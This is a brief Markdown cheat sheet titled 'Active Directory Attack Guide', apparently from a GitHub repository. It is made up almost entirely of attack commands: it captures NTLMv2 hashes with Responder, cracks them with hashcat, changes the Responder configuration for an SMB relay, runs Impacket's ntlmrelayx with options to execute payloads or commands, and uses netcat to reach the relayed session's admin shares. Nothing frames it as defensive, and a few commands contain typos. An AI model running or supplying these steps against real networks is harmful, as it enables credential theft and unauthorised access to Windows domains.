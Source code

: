 ## Active Directory Attack Guide.

#### Capture NTLMv2 Hashes
```
sudo responder -I eth0 - rdwv
```
#### Crack with Hashcat
```
hashcat -m 5600 hash rockyou.txt
```

#### Edit the Responder Config File for SMB Relay Attack
```
nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running Responder
```
sudo responder -I eth0 - rdwv
```
#### Starting NTLMrelayx part of Impacket Tools
```
ntlmrelayx.py -tf targets.txt -smb2support -i 
-i -- intercative
-e -- execute payload (test.exe)
-c -- run a command (whoami)
```

#### Netcat Listener on localhost
```
nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```


